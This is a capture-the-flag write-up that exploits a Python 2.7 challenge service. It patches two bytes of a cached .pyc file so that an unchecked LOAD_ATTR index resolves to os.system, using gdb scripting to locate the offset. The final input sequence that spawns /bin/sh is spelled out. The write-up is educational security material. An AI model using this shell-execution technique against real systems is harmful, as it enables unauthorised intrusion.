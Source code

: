 ## Misc - Need_some_flags_2

We are given a Python console application exposed via xinetd. It allows us to
do four things:

* Option `0` (`writeflag`): three times only, write up to 0x30 characters into
`flag` global variable as well as into a new file with a random name.
* Option `1` (`editflag`): one time only, write 2 bytes into any file in the
application directory (excluding `.py` files) at any offset.
* Option `2` (`pushflag`): no-op, commented out.
* Option `3` (`secretflag`): reload the `nonsecret` module and pass an arbitrary
string to the `printlist` function inside it.

`nonsecret.py` is trivial:

```
import os
def printlist(path):
  print os.listdir(path)
```

Which files can we edit with `editflag`? `.py` ones are locked down, random flag
files are useless, and we cannot reference files outside of the current
directory. Initial import of the `nonsecret` module results in generation of
`nonsecret.pyc`, and `secretflag` reloads it - so we can edit `nonsecret.pyc`.
`.pyc` files with a fresher timestamp take precedence over older `.py` files - a
source of constant frustration in daily life.

Let's disassemble the `nonsecret.pyc` with [python-xdis](
https://github.com/rocky/python-xdis):

```
$ pydisasm --show-bytes nonsecret.pyc
```
```
# Method Name:       <module>
```
```
# Constants:
#    0: -1
#    1: None
#    2: <xdis.code.Code2 object at 0x7fc9e252deb8>
# Names:
#    0: os
#    1: printlist
  1:           0 |64 00 00| LOAD_CONST           (-1)
               3 |64 00 01| LOAD_CONST           (None)
               6 |6c 00 00| IMPORT_NAME          (os)
               9 |5a 00 00| STORE_NAME           (os)

  2:          12 |64 00 02| LOAD_CONST           (<xdis.code.Code2 object at 0x7fc9e252deb8>)
              15 |84 00 00| MAKE_FUNCTION             0
              18 |5a 00 01| STORE_NAME           (printlist)
              21 |64 00 01| LOAD_CONST           (None)
              24 |53      | RETURN_VALUE
```
```
# Method Name:       printlist
```
```
# Constants:
#    0: None
# Names:
#    0: os
#    1: listdir
# Varnames:
#	path
# Positional arguments:
#	path
  3:           0 |74 00 00| LOAD_GLOBAL          (os)
               3 |6a 00 01| LOAD_ATTR            (listdir)
               6 |7c 00 00| LOAD_FAST            (path)
               9 |83 00 01| CALL_FUNCTION        (1 positional, 0 named)
              12 |47      | PRINT_ITEM
              13 |48      | PRINT_NEWLINE
              14 |64 00 00| LOAD_CONST           (None)
              17 |53      | RETURN_VALUE
```

First guess - replace two-letter `os` module name with something else, e.g.
`uu`. Unfortunately, there is no such module with a useful `listdir` function.
Similarly, there doesn't seem to be a way to replace two consecutive letters in
`listdir` function name to get a name of a useful function.

Second guess - patch the argument of `LOAD_ATTR` so that it ends up pointing to
`system` instead of `listdir`. Inspecting [python2.7.15](
https://github.com/python/cpython/tree/v2.7.15) code shows that [`LOAD_ATTR`](
https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L2551) does
[`GETITEM`](https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L833),
which does no bounds checking in release builds. The `LOAD_ATTR` argument is
[unsigned](https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L883).
So if we manage to find a `PyObject *` pointing to `system` string within
`0x10000 * 8` bytes from [`names` tuple](
https://github.com/python/cpython/blob/v2.7.15/Python/ceval.c#L1021), then we
are good.

We could increase the chances of it appearing by passing `system` to
`writeflag` (option `0`), since the value will be saved into a global variable
`flag`, which will not be overwritten or garbage collected.

How to find the offset? Let's use gdb and catch the moment when the code calls
`LOAD_ATTR` inside `printlist`. First, let's add a few things to the
`Dockerfile` to enable debugging (it's important to have the same environment
as the actual server):

```
RUN sed -i -e 's/^# deb-src /deb-src /g' /etc/apt/sources.list
RUN apt-get update
RUN apt-get install dpkg-dev gdb python2.7-dbg -y
RUN cd /usr/src && apt-get source python2.7
```

Then rebuild the image and run it with `--privileged` flag to enable debugging
(this is actually an overkill - something like `--cap-add=SYS_PTRACE
--security-opt=apparmor:unconfined` might suffice, but it's so much longer):

```
$ docker build -t need_some_flags_2 .
$ docker run -it --rm -p 4869:4869 --privileged --name need_some_flags_2 need_some_flags_2
$ docker exec -it need_some_flags_2 bash
# cd /usr/src/python2.7-2.7.15/Python
# gdb -p $(pidof python2.7)
```

We can catch execution of any code in `nonsecret` module using the following
conditional breakpoint:

```
(gdb) b PyEval_EvalFrameEx if (strcmp(PyDict_GetItemString(f->f_globals, "__name__")->ob_type->tp_name, "str") == 0) && (strcmp(PyString_AsString(PyDict_GetItemString(f->f_globals, "__name__"), 0), "nonsecret") == 0)
```

Here we abuse invoking functions in the gdb inferior. We take a frame object and
ask for a `__name__` item of its globals dict. Sometimes it may be `None`, so we
first check if it's a `str`, if yes, then we compare its value with `nonsecret`.
This breakpoint fires only two times - for module initialization and for
`printlist`. So we can skip it the first time, and then single-step to
`LOAD_ATTR` case in the switch statement in the interpreter loop.

Unfortunately, debuginfo is not good enough and does not show the location of
`names`, so after reaching `TARGET(LOAD_ATTR)` we need to issue a few `si`
commands to position ourselves at `+1602`.

```
2551	        TARGET(LOAD_ATTR)
   0x000056508de6136d <+1565>:	lea    0x2(%r9),%rbp
   0x000056508de61371 <+1569>:	movzbl -0x1(%rbp),%eax
   0x000056508de61375 <+1573>:	movzbl -0x2(%rbp),%r14d
   0x000056508de61383 <+1587>:	mov    %r9,(%rsp)
   0x000056508de61387 <+1591>:	shl    $0x8,%eax
   0x000056508de6138d <+1597>:	add    %r14d,%eax

2552	        {
2553	            w = GETITEM(names, oparg);
   0x000056508de6137a <+1578>:	mov    0x30(%rsp),%r12
   0x000056508de61390 <+1600>:	cltq
   0x000056508de61392 <+1602>:	mov    0x18(%r12,%rax,8),%r14
```

At this point, `%rax` is index (`1` in non-patched version) and `%r12` is
`names`, `0x18` is python object header size, so `%r12 + 0x18` is the start of
the array. Let's scan the memory and find the indices:

```
(gdb) python
import struct
i = gdb.inferiors()[0]
names_arr = <<<output of p/x $r12 + 0x18>>>
PyString_Type = <<<output of p/x PyString_Type>>>
for pp in range(names_arr, names_arr + 0x10000 * 8, 8):
    p, = struct.unpack('<Q', i.read_memory(pp, 8))
    try:
        r, t, l = struct.unpack('<QQQ', i.read_memory(p, 24))
    except gdb.MemoryError:
        continue
    if t == PyString_Type:
        foo = gdb.execute('p (char*)PyString_AsString((PyObject*)' + hex(p) + ')', to_string=True).strip()
        if '"system"' in foo:
            print(hex(pp))
end
```

First we scan through all pointers in the reachable area. For each pointer, if
the second quadword it points to is address of `PyString_Type`, we assume this
is a Python string. Then we use gdb to ask the Python interpreter to give us its
value, and if it's `system`, then we print the address of the corresponding
pointer. The last manual step is to subtract `%r12 + 0x18` from each printed
address (there are normally only 2 of them) and divide by 8 to get indices.
Those two indices are stable across multiple runs.

So, the final sequence is:

* Option `0` (`writeflag`): `system`
* Option `1` (`editflag`): `nonsecret.pyc`, `A8ED` | `B013`, `92`
* Option `3` (`secretflag`): `/bin/sh`

and this gives us the shell to poke around and get the flag!
